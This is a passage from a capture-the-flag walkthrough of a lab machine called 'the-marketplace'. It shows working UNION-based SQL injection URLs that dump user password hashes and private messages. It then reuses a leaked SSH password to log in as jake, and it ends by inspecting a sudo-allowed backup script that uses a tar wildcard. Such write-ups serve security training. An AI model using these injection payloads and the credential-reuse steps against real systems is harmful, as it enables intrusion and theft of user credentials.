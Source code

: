 Now we can go ahead and get the contents of this table
```
http://10.10.160.210:32768/admin?user=0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator),3,4 from marketplace.users-- -


User 
1:system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW:0,
2:michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q:1,
3:jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG:1,
4:test:$2b$10$zCeYI0Tqe/NO8RRbGmbnd.Hu.EpNknzhKzFX/NL5IfuZXKqsstbzC:0 
```

So we have some hashes that we can potentially crack and test for reuse on ssh, but lets get the information in the messages table first, so start again by getting the columns
```
http://10.10.160.210:32768/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='messages'-- -

User 1
User id,is_read,message_content,user_from,user_to
ID: 1
Is administrator: true 
```

Then lets grab what I feel would be most relevant with the following
```
http://10.10.160.210:32768/admin?user=0 union select 1,group_concat(user_from,':',user_to,':',message_content),3,4 from marketplace.messages-- -

User 
1:3:Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: REDACTED,
1:4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,
1:4:Thank you for your report. We have reviewed the listing and found nothing that violates our rules.
```

The user_from and user_to fields return a number but we can use the user table information we have to determine that these correspond to the id's and that we now have a possible password for user id 3 or jake so lets try and connect. Sure enough the credentials have not been changed and we have a foothold

#Initial foothold

We go ahead and find the user.txt flag in jake's home directory and the following
```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
